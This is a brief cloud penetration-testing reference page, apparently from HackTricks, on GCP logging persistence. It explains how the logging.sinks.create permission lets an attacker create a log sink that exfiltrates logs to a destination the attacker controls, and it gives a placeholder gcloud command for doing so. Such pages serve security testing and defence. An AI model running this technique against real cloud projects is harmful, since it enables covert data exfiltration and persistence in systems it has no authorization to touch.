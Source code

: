# GCP - Logging Persistence

{{#include ../../../banners/hacktricks-training.md}}

## Logging

Find more information about Logging in:

{{#ref}}
../gcp-services/gcp-logging-enum.md
{{#endref}}

### `logging.sinks.create`

Create a sink to exfiltrate the logs to an attackers accessible destination:

```bash
gcloud logging sinks create <sink-name> <destination> --log-filter="FILTER_CONDITION"
```

{{#include ../../../banners/hacktricks-training.md}}
